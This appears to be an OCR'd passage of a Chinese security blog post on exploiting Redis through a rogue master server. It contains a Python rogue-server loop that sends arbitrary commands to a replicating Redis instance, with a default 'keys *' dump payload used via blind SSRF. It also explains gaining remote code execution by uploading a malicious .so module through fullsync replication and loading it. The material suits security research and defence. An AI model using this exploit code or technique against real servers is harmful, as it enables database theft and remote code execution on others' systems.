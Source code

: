  def exp(self):  
 cli, addr = self.\_sock.accept()  
 while True:  
 data = din(cli, 1024)  
 if len(data) == 0:  
 print("data == 0")  
 break  
 resp, phase = self.handle(data)  
  
 if phase == 4:  
 dout(cli, resp)  
 data = din(cli, 1024)  
 \# payload = raw\_input("Commands:")  
  
 payload = "r keys \*"  
 while True:  
 time.sleep(1)  
 payload = input("\[\*\]Master to Slave Command:")  
 if payload == 'exit':  
 break  
 resp = encode\_cmd(payload)  
 dout(cli, resp)  
 data = din(cli, 1024)  
 print(data)  
 break  
 else:  
 dout(cli, resp)  
  
  
RogueServer("127.0.0.1", 9990).exp()  

该方法在redis bind到127,SSRF且无回显的场景中可以快速拿到数据库中的所有数据.  
Docker中的redis bind到127进行测试.  
![-w1238](https://yulegeyublog.oss-cn-beijing.aliyuncs.com/redis_post_2.jpg)

P.S.  
PPT中提到的redis5版本后不能使用config命令, 说的是在script模式中不能使用config,正常模式下能够正常使用,看到有不少人理解错了顺便说一下。  
![-w1201](https://yulegeyublog.oss-cn-beijing.aliyuncs.com/redis_post_3.jpg)

[](#RCE "RCE")RCE
-----------------

redis4中新增了添加扩展功能,可以自己编译so load到redis中使用。如果能够上传编译好的so到redis服务器中,即可通过module load加载扩展实现RCE。在以前的利用中，是通过持久化数据到crontab或authorized\_keys或web目录中,但是这种方法有很大的一个问题是我们不能完全控制文件内容。  
Redis在进行fullsync时, 会把master返回的数据直接保存到临时文件中,然后再重命名为dbfilename对应的文件名, 这里自己自己搭建rogue server,即可返回任意内容实现任意文件上传,然后写入so即可实现RCE。

1  
2  
3  
4  
5  

if (rename(server.repl\_transfer\_tmpfile,server.rdb\_filename) == \-1) {  
 serverLog(LL\_WARNING,"Failed trying to rename the temp DB into dump.rdb in MASTER <-> SLAVE synchronization: %s", strerror(errno));  
 cancelReplicationHandshake();  
 return;  
}  
